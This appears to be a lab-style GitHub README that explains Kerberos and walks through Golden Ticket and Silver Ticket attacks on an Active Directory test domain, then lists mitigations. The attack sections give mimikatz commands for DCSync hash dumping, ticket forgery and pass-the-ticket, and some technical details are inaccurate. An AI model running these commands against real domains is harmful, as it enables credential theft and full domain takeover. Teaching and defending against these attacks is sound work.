

<h1 style="color:red">#EnterpriseNetworkingSquad</h1>

## Active Directory Attacks


<h1></h1>
<h3 style="color:orange">What is Kerberos?</h3>

Kerberos is designed to provide authentication of user identity in a networked computing environment consisting of workstations and servers.

The Kerberos authentication system is built on top of tickets served by KDC (Key Distribution Center). The core idea behind Kerberos is that the users don’t share account passwords to each service they want to use. Instead, they share a ticket which they get from KDC.
When a user first starts using the system, they will use their password to get a master ticket called a TGT (Ticket Granting Ticket). This master ticket expires in 25 hours, after which, the user will need to enter the password again to get another one.
When the user needs service access, that uses Kerberos, they will show that master ticket (TGT) to the Kerberos server and get a ticket specifically for that service. Then, user shows the ticket just for that service to the service to prove who you are.


<h1></h1>
<h3 style="color:orange">Steps in Kerberos Authentication</h3>

1. Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request (as Request).

2. The Domain Controller (KDC) checks user information & creates Ticket-Granting Ticket (TGT).

3. The TGT is encrypted, signed, & delivered to the user (as Response). Only the Kerberos service (KRBTGT) in the domain can open and read TGT data.

4. The User presents the TGT to the DC when requesting a Ticket Granting Service (TGS) ticket (TGS Request). The data in the TGT is effectively copied to create the TGS ticket.

5. The TGS is encrypted using the target service account's NTLM password hash and sent to the user (TGS Response).

6. The user connects to the server hosting the service on the appropriate port & presents the TGS. The service opens the TGS ticket using its NTLM password hash.


<h1></h1>
<h2 style="color:yellow">Golden Ticket Attack</h2>

A Golden Ticket attack is when an attacker has complete and unrestricted access to an entire domain — all computers, files, folders, and most importantly, the access control system itself. Golden Ticket attacks can be carried out against Active Directory domains, where access control is implemented using Kerberos tickets issued to authenticated users by a Key Distribution Service. The attacker gains control over the domain’s Key Distribution Service account (KRBTGT account) by stealing its NTLM hash. This allows the attacker to generate Ticket Granting Tickets (TGT) for any account in the Active Directory domain. With valid TGTs, the attacker can request access to any resource/system on its domain from the Ticket Granting Service (TGS). Because the attacker is controlling the component of the access control system that is responsible for issuing Ticket Granting Tickets (TGT), then he has the golden ticket to access any resource on the domain.


<h3>Requirements:</h3>
1. Domain Name
2. Domain SID
3. Domain's KRBTGT Account NTLM Hash
4. UserID for impersonation

<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.


2. Run ```lsadump::dcsync /domain:Mahabharata.ns /user:krbtgt```. If you don't know the Domain Controller name then use ```get-aduser krbtgt``` command and observe the Domain Controller name. Note the domain SID and NTLM Hash of krbtgt user from the output.



3. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /rc4:<NTLM Hash of krbtgt user> /id:500 /user:<Your user name>``` to generate the golden ticket.


4. Run ```kerberos::ptt ticket.kirbi``` to pass the generated ticket to get Domain Controller's privileges.


5. Open Command Promt and observe that you got Domain Controller's privileges.


<h1></h1>
<h2 style="color:yellow">Silver Ticket Attack</h2>

A Silver Ticket is a forged service authentication ticket. An Attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services (low-level Operating System programs) to log in without double-checking that their token is actually valid, which hackers have exploited to create Silver Tickets. Silver Tickets are harder to detect than Golden Tickets because there is no communication between the service and the DC – and any logging is local to the targeted computer.


<h3>Steps to Perform the Attack</h3>

1. Login into any user (Anuvinda user) and open powershell. Navigate to ```mimikatz.exe``` and execute the exe file.


2. Run ```kerberos::golden /domain:Mahabharata.ns /sid:<Your Domain SID> /ptt /id:500 /service:<Service Name> /rc4:<NTLM Hash of krbtgt user> /user:<Your user name>```


3. Exit the mimikatz and run ```klist``` to list the created user for MSSQL service.


<h1></h1>
<h2 style="color:orange">Mitigation</h2>


<h2 style="color:yellow">Golden Ticket Attack</h2>

Golden Tickets are very difficult to detect, because they are perfectly valid TGTs. However, in most cases they are created with lifespans of 10 years or more, which far exceeds the default values in Active Directory for ticket duration. Unfortunately, event logs do not log the TGT timestamps in the authentication logs, but other AD monitoring products are capable of doing so. If you do see that Golden Tickets are in use within your organization, you must `reset the KRBTGT account twice`, which may have other far-reaching consequences.

The most important protection against golden tickets is to `restrict Domain Controller logon rights`. There should be the absolute `minimum number of Domain Admins`, as well as members of other groups that provide logon rights to DCs such as Print and Server Operators. In addition, `a tiered logon protocol should be used` to prevent Domain Admins from logging on to servers and workstations where their password hashes can be dumped from memory and used to access a DC to extract the KRBTGT account hash.


<h2 style="color:yellow">Silver Ticket Attack</h2>

Detecting Silver Tickets can be very difficult since this bypasses the entire TGT portion of authentication and cannot be monitored by looking at Domain Controller logs. The best way to prevent these attacks is to enforce proper security over service accounts to avoid having these accounts compromised to begin with. Monitoring for logon anomalies using local logon events, such as the one shown above, can also be effective in protecting your organization. Additional mitigation steps:

1. Limit credential overlap across systems to prevent the damage of credential compromise

2. Ensure that local administrator accounts have complex, unique passwords

3. Do not allow a user to be a local administrator for multiple systems

4. Limit domain admin account permissions to domain controllers and limited servers

5. Delegate other admin functions to separate accounts
